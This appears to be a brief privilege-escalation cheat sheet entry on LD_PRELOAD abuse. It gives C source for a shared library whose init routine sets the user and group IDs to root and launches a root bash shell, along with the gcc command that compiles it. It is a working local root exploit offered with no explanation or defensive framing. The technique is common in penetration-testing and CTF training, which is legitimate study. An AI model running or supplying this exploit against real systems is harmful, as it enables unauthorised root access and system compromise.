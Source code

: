 ### LD_PRELOAD
```
ldd /bin/ls
```

### Shared Library compile exploit
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
